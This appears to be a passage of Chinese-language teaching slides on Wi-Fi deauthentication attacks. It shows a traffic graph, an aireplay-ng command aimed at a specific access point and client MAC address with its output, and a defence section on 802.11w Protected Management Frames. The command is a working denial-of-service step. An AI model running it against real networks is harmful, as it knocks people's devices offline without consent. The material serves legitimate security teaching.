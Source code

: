 ## DeAuthenticaion 攻击可视化 {id="deauth-attack-visualization"}

> Statistics -> I/O Graphs

---

![](images/chap0x03/deauthentication-attack.png)

---

## aireplay-ng

```bash
sudo aireplay-ng --deauth 1 -a  3C:46:D8:59:E8:F4 -c 62:27:AD:C4:0F:F2 wlan0 --ignore-negative-one
# 18:36:35  Waiting for beacon frame (BSSID: 3C:46:D8:59:E8:F4) on channel 11
# 18:36:43  Sending 64 directed DeAuth (code 7). STMAC: [62:27:AD:C4:0F:F2] [44|39 ACKs]
# sudo aireplay-ng --deauth 1 -a  3C:46:D8:59:E8:F4 -c 62:27:AD:C4:0F:F2 wlan0 --ignore-negative-one
# 18:37:18  Waiting for beacon frame (BSSID: 3C:46:D8:59:E8:F4) on channel 11
# 18:37:26  Sending 64 directed DeAuth (code 7). STMAC: [62:27:AD:C4:0F:F2] [31|30 ACKs]
```

---

## 防御 deauthentication-attack {id="in-defense-of-deauth-1"}

* 在 AP 上启用 [IEEE 802.1w-2009](https://standards.ieee.org/standard/802_11w-2009.html) 引入的 `Protected Management Frames (PMF)` 机制
    * 对管理帧启用了机密性、完整性、来源真实性和重放保护机制
* `WPA2` 启用了 `PMF` 后（`WPA` 不支持）
    * `MIC` 产生算法从 `HMAC-SHA1` 进化为 `AES-CMAC`
    * `PTK` 产生算法从 `SHA-1` 进化为 `SHA-256`

---